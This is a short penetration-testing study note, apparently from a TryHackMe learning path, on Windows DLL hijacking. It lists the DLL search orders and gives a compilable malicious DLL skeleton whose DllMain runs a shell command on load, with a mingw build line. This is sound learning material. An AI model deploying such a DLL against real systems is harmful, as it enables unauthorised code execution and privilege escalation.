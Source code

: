 # DLL Hijacking

## Windows DLL Search Order

Windows DLL search order if `SafeDllSearchMode` is enabled:

* The application directory
* The system directory (as returned by `GetSystemDirectory()`)
* The 16-bit (!) system directory
* The Windows directory (as returned by `GetWindowsDirectory()`)
* The current directory (!)
* The system `PATH` (!)

Windows DLL search order if `SafeDllSearchMode` is disabled:

* The application directory
* The current directory (!)
* The system directory (as returned by `GetSystemDirectory()`)
* The 16-bit (!) system directory
* The Windows directory (as returned by `GetWindowsDirectory()`)
* The system `PATH` (!)

Note that it seems more-or-less impossible to determine what DLLs an application is searching for without having SYSTEM access already (so tools like ProcMon can be run).

* [TryHackMe: Jr. Penetration Tester](https://tryhackme.com/path/outline/jrpenetrationtester)
* [Exploiting LD_PRELOAD](./Exploiting%20LD_PRELOAD.md)
* [Exploiting LD_LIBRARY_PATH](./Exploiting%20LD_LIBRARY_PATH.md)

## Malicious DLL Skeleton

```c
#include <windows.h>

BOOL WINAPI DllMain
(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
	if (dwReason == DLL_PROCESS_ATTACH) {
		system("cmd.exe /C whoami > C:\Temp\dll.txt");
		ExitProcess(0);
	}
	return TRUE;
}
```

Compile with mingw (on Linux!):

```bash
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```
